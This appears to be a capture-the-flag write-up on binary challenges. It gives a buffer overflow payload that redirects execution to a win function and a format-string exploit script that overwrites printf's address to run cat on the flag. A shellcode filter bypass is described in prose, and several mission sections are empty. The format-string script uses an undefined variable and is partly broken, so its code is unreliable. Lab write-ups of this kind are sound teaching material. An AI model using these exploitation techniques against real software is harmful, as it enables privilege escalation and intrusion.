# Binary challenges

The goal of all challenges is to read the content of file flag.txt, that needs upper privileges.

## Mission0: System of a BOF

The vulnerability to exploit is a buffer overflow. The idea is to overwrite the return address with the address of function win.

In order to get the exact position of the return address I used the function cyclic from pwntools. \
The address of win can be found in gdb with the command:

```
 info address win
```

Now I have everything to craft the exploit with python:

```
win_address = "\xcb\x84\x04\x08"
offset = 144
print("pie!" + "A" * offset + win_address)
```

## Mission1: Baby ASCII Art

The vulnerability to exploit is a string format.

The general idea is to be able to execute the function cat, present in the binary, passing by arguments "flag;".

I had to craft a string format exploit to write in the return address of the printf function with the one of cat. The address of printf can be found in the binary with the command:

```
readelf -s mission1 | grep printf
```

The offset (displacement) to be used in the exploit can be easily found by writing a small script in python that uses the string format vulnerability and tries multiple values.

<pre data-overflow="wrap"><code>import subprocess
<strong>path = ['env', '-i', './mission1/mission1']
</strong>cat = "> ^ &#x3C;"
start = 1
end = 100

for i in range(start, end + 1):
	check = "AAAA%" + str(i) + "$x"

	process = subprocess.Popen(path, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
	
	pay = "2\n" + check + cat + "\n" + "3\n" + "4\n" 
	output, error = process.communicate(input=pay)
	print("Testing: " + str(i) + "\tOutput: " + str(output) + "\n")

</code></pre>

&#x20;Now I have everything to craft the exploit with python:

<pre data-overflow="wrap"><code>#to enter in create_art and exploit the string format vulnerability
<strong>start = "2\n" 
</strong>#prepare the argument of cat()
win= "flag;"
#to pass the check on the selected ascii art
cat = "> ^ &#x3C;"
#string format exploit
off = 59
off_1 = off + 1
printf = "\x10\xb0\x04\x08"
printf_2 = "\x12\xb0\x04\x08"
N_1 = 0x0804 - 8 - 8
N_2 = 0x0804 - 0x8a09

exp = printf_2 + printf + "%" + str(N_1) + "c%" + str(new_off) + "$hn%" + str(N_2) + "c%" + str(off_1) + "$hn" 

#to enter in view_saved_art two times: the first one to put in place the exploit, and the second to enter in the overwritten address of printf
end = "\n 3\n 3\n 4\n"
print(start + win + exp + cat + end)

</code></pre>

## Mission2: Muda

The vulnerability is a buffer overflow. We have a buffer of 256bit, that is checked for the presence of "0x0b" or "0x05" (respectively execve and open).&#x20;

The idea is to use a shellcode that open a privileged shell that does not use the previous commands.&#x20;

## Mission3: ret2thefuture

## Mission4: Darkroom&#x20;

It is a reverse engineering challenge: the source code is not provided.&#x20;

## Mission5: 90s&#x20;

## Mission6: Endianness Problem

#### Useful resources:

{% embed url="https://ir0nstone.gitbook.io/notes" %}

{% embed url="https://book.jorianwoltjer.com/" %}

